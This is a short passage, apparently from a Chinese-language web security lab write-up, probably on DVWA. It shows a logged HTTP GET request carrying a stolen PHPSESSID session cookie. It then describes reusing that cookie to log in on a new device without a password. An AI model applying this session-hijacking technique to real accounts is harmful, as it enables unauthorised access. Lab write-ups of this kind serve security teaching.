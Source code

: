 获取cookie

```
GET /?output=PHPSESSID=59147pmbmgig63dgmdeubu7827;%20security=low HTTP/1.1
```



# 作业三 通过cookie登录

此时新设备登录没有密码

![image-20250827200736809](images/image-20250827200736809.png)

hackback构造cookie成功登录进去
